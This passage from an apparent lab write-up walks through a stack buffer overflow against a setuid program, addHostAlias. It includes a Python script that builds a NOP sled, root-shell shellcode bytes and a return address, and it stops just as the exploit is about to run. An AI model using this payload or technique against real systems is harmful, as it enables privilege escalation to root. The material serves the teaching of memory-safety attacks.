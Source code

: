    

   Here we can clearly see the location of the buffer: from `0xbffffa8c` to `0xbffffb8c`.

Thus, the return address can be somewhere from `0xbffffa8c` to `0xbffffa8c + len_of_NOP_sled`.

### 1.3 Construct the Injection Code

As aforementioned, we can construct the injection code as follows:

1. Part A: A NOP sled with a length of `len(formatbuffer)-len(shellcode)`
2. Part B: The given shellcode. As described in the lab instruction, the code generally create a shell, and set the real UID and GID as the effective UID, which is `root` here.
3. Part C: 4 NOP instructions (4 bytes) to jump over the base pointer + The return address

Thus, the final payload looks like:

```
payload = nop_sled (181B) + shellcode (75B) + nop*4 (4B, jump over BP) + ret_addr (4B)
```

The python code to generate the injection code is as follows.

```python
#!/usr/bin/env python2

import os
import struct

# part A: the NOP sled
nop = "\x90"
nop_sled = nop * (256 - 75)

# part B: the malicious shell code to be executed
shellcode = ('\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80'
               +'\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0'
               +'\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80'
               +'\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68'
               +'\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0'
               +'\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90'
               +'\x90\x90\x90\x90\x90\x90\x90\x90\x90')

# the ret addr is somewhere in the middle of the NOP sled.
ret_addr = struct.pack("i", 0xbffffae0)

# payload = nop_sled (181B) + shellcode (75B) + nop*4 (4B, jump over BP) + ret_addr (4B)
exploit = nop_sled + shellcode + nop * 4  + ret_addr

print exploit
```

### 1.4 Perform the exploit.

Here, we execute `addHostAlias`. The `ip` argument is the injection code we created. Note that other arguments are arbitrary.
